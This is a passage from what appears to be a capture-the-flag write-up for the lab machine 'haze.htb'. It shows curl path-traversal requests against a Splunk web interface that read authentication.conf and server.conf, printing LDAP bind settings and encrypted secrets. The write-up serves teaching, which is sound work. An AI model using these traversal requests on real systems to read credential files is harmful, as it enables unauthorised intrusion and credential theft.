 In poking around for these files, I’ll find a few interesting files. `etc/system/local/authentication.conf` has LDAP binding information for a user named Paul Taylor:

```

oxdf@hacky$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf'
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP

```

I’ll note that hash.

`server.conf` has a couple hashes as well:

```

oxdf@hacky$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/server.conf'
[general]
serverName = dc01
pass4SymmKey = $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA==

[sslConfig]
sslPassword = $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw==

[lmpool:auto_generated_pool_download-trial]
description = auto_generated_pool_download-trial
peers = *
quota = MAX
stack_id = download-trial

[lmpool:auto_generated_pool_forwarder]
description = auto_generated_pool_forwarder
```